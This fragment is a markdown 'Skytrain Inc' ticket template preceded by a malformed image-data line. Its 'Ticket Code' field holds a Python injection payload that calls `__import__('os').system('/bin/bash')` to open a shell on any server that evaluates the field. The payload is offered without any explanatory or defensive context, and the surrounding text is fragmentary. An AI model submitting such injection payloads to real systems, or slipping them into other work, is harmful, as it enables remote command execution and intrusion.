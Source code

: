 # Skytrain Inc
## Ticket to
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('/bin/bash') == False

